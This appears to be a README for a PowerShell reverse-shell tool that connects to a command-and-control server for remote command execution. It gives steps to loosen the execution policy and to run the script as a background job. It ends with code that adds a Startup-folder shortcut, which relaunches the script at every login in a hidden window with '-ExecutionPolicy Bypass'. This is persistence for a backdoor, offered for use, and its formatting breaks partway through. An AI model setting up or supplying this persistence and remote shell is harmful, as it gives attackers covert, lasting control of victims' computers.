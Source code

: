 # Reverse PowerShell Script

This PowerShell script establishes a reverse TCP connection to a command-and-control (C2) server and allows for remote command execution via a secure shell.

## Prerequisites

Before running the script, ensure you have the following:

- **PowerShell**: The script is written for PowerShell and should be executed in a Windows environment.
- **Execution Policy**: The script may require an execution policy that allows scripts to run.

## Step-by-Step Instructions

### 1. Set the PowerShell Execution Policy

To allow the script to run, you may need to set the execution policy to `RemoteSigned` for the current user.

1. Open a PowerShell window **as Administrator**.
2. Run the following command to set the execution policy:

   ```powershell
   Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
   ```

# ReversePowerShell

#### Run in the background

```powershell
   Start-Job -ScriptBlock { C:\Users\adm\Downloads\reverse-powershell.ps1 }
```

# Create a shortcut to the reverse shell script in the Startup folder
$startupFolder = [System.Environment]::GetFolderPath('Startup')
$scriptPath = "C:\path\to\reverse-powershell.ps1"
$shortcutPath = "$startupFolder\reverse-powershell.lnk"

# Create a WScript Shell object to create the shortcut
$wshShell = New-Object -ComObject WScript.Shell
$shortcut = $wshShell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = "powershell.exe"
$shortcut.Arguments = "-WindowStyle Hidden -ExecutionPolicy Bypass -File $scriptPath"
$shortcut.Save()
